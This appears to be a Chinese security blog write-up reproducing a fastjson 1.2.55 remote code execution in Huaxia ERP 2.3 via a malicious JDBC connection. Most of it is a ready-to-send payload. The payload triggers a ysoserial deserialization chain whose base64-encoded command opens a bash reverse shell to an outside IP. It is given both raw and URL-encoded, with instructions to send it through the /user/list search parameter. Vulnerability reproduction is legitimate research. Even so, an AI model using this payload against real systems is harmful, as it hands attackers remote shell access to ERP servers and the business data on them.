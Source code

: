 [奇安信攻防社区 - 某开源 ERP 最新版 SQL 与 RCE 的审计过程](https://forum.butian.net/share/134)  
[华夏 ERP CMS 代码审计 - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/370821.html)  
[蓝帽杯 2022 决赛 - 赌怪 writeup - KingBridge - 博客园](https://www.cnblogs.com/kingbridge/articles/16720318.html)

### Fastjson RCE

此版本 `华夏ERP 2.3`是存在 `fastjson 1.2.55 RCE`漏洞的，进行复现  
构造数据包 进行 `JDBC`攻击

```plain
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }

%7b%20%22%6e%61%6d%65%22%3a%20%7b%20%22%40%74%79%70%65%22%3a%20%22%6a%61%76%61%2e%6c%61%6e%67%2e%41%75%74%6f%43%6c%6f%73%65%61%62%6c%65%22%2c%20%22%40%74%79%70%65%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%4a%44%42%43%34%43%6f%6e%6e%65%63%74%69%6f%6e%22%2c%20%22%68%6f%73%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%22%31%31%31%2e%32%32%39%2e%31%35%38%2e%34%30%22%2c%20%22%70%6f%72%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%33%33%30%39%2c%20%22%69%6e%66%6f%22%3a%20%7b%20%22%75%73%65%72%22%3a%20%22%79%73%6f%5f%43%6f%6d%6d%6f%6e%73%43%6f%6c%6c%65%63%74%69%6f%6e%73%36%5f%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%7a%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%22%2c%20%22%70%61%73%73%77%6f%72%64%22%3a%20%22%70%61%73%73%22%2c%20%22%73%74%61%74%65%6d%65%6e%74%49%6e%74%65%72%63%65%70%74%6f%72%73%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%69%6e%74%65%72%63%65%70%74%6f%72%73%2e%53%65%72%76%65%72%53%74%61%74%75%73%44%69%66%66%49%6e%74%65%72%63%65%70%74%6f%72%22%2c%20%22%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65%22%3a%20%22%74%72%75%65%22%2c%20%22%4e%55%4d%5f%48%4f%53%54%53%22%3a%20%22%31%22%20%7d%20%7d
```

运行 `server.py`开启，注意这里`config.json`配置 (ysoserial-all.jar 和 server.py 放一起)，bash 反弹 shell

[![](assets/1709193375-e3b45c188aabe9f1f990fb41906bdcf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204956-b5a24614-d56e-1.png)

构造`/user/list?search=编码后的内容` 发包成功反弹 shell
